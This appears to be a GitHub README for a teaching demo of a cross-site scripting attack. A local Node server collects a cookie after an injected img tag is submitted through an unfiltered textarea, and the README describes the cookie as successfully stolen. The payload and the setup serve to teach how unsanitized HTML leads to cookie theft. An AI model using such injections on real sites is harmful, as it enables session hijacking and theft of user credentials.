 # xss-example

This is a demonstration of simple XSS attack. You should have [Node.js](https://nodejs.org/en/) installed.

First, run server part:

`node server.js`

It will start HTTP server on http://localhost:8000.

Now open index.html in the browser using virtual host (with IDE, for example).
You should have `dangerousToken` cookie set to the storage.
There is a div on top of the page where you can see any HTML submitted from the textarea.
There are no limitations on the input data.

Update the div content with this:

`<img src="http://localhost:8000/" />`

You should see the string in the terminal where the server was started:

`Received token: youShouldNotGetThis`

If you see it then the cookie was successfully stolen. Congratulations!